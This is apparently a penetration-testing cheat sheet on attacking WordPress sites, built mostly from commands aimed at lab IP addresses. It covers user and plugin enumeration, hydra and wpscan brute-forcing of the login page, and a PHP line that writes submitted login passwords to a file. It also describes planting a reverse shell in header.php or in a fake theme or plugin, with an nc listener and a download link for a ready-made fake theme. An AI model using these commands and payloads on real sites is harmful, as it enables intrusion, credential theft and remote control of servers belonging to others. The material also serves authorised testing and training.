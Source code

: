 ### Wordpress

- Version discovery**
    ```bash
    curl -s 192.168.56.102/wordpress/ | grep generator
    curl -s 192.168.56.102/wordpress/readme.html | grep Version
    curl -s 192.168.56.102/wordpress/wp-login.php | grep "ver="
    ```
- User enumeration
    ```bash
    for i in $(seq 1 5); do curl -sL 192.168.110.105/wordpress/?author=$i | grep '<title>'; done

    // When 'stop-user-enumeration' plugin installed
    curl -i -sL '192.168.56.102/wordpress/?wp-comments-post&author=1' | grep '<title>'
    curl -sL 192.168.56.102/wordpress/?wp-comments-post -d author=1 | grep '<title>'

    // Rest API (4.7+)
    curl -s http://localhost/wp-json/wp/v2/users
    ```
- Theme and plugin enumeration**
  - /wordpress_site/wp-content/plugins/
  - /wordpress_site/wp-content/themes/
  ```bash
  wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/CMS/wp_plugins.fuzz.txt --hc 404 192.168.56.104/wordpress/FUZZ
  nmap -sV -p 80 192.168.56.102 --script=http-wordpress-enum.nse --script-args=http-wordpress-enum.root=/wordpress/
  ```
- Enumerate users, plugins and themes
    ```
    wpscan -u http://192.168.110.105/wordpress/ -e u,ap,at
    ```

- Password Brute-forcing
    ```
    echo admin > users.txt && echo wpuser >> users.txt
    hydra -L users.txt -P lists/500.txt -e nsr 192.168.110.105 http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&testcookie=1:S=Location"
    wpscan --users users.txt -w /root/lists/500.txt -u 192.168.110.105/wordpress/
    ```
- Privilege escalations 
    ```
    searchsploit wordpress escalation
    ```
- Log passwords from wp-login.php
    ```
    file_put_contents("creds.txt",$_POST['log']." - ".$_POST['pwd'])
    ```
- Obtain shell
  - Editing the main header.php script of the WordPress site to contain a reverse shell.
  - Uploading a fake plugin containing a reverse shell.
  - Uploading a fake theme containing a reverse shell. [http://www.mediafire.com/file/ya0qn83o0b5e3lu/fake-theme.zip](http://www.mediafire.com/file/ya0qn83o0b5e3lu/fake-theme.zip)
    ```
    nc -lvp 31337
    curl 192.168.56.102/wordpress/wp-content/themes/fake-theme/header.php
    ```
- Tools
  - [WPScan - https://github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)
  - [Droopescan - https://github.com/droope/droopescan](https://github.com/droope/droopescan)
  - [wpBullet - Static code analysis for WordPress Plugins/Themes](https://github.com/webarx-security/wpbullet)

